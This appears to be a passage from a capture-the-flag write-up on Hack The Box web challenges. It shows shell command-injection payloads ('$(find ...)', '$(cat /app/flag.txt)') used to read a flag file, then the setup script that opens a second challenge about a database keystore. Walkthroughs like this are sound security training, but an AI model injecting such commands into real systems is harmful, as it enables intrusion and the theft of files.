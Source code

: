 - that is an obvious command injection
- i search other files and i don't see any sanitization so i can input something like this

```
$(find / -name flag.txt 2>/dev/null)
```

![](assets/images/htb-ctf-usf-find-flag.png)

- all is left is to read the flag

```
$(cat /app/flag.txt)
```

![](assets/images/htb-ctf-usf-deloeran-clock-flag.png)

- flag: `HTB{d0nt_p4ss_Us3r_Inpu7s_t0_c0mm4ndl1n3}`

### MadDog Memorial 

#### You have been tasked with the pentesting engagement on the memorial website of the great Buford "Mad Dog" Tannen, who was a true patriotic countryman and the pride of Hill Valley! The Tannen family has asked you to find out any loopholes in the system and see if the admin account can be compromised. They don't want any teenager or a mad scientist to break in and discover the secrets they are hiding!

- this was a much more fun challenge, it involved an interesting exploit chain
- it starts with understanding the database structure:

```
DEVKEY=$(cat /dev/urandom | tr -dc 'a-zA-Z0-9' | fold -w 15 | head -n 1)
PRODKEY=$(cat /dev/urandom | tr -dc 'a-zA-Z0-9' | fold -w 15 | head -n 1)

mysql -u root << EOF
CREATE DATABASE tannen_memorial;

CREATE TABLE tannen_memorial.keystore (
  kid int(11) NOT NULL AUTO_INCREMENT,
  secret varchar(255) NOT NULL,
  PRIMARY KEY (kid)
);

INSERT INTO tannen_memorial.keystore VALUES (1,'${DEVKEY}');
INSERT INTO tannen_memorial.keystore VALUES (2,'${PRODKEY}');
```
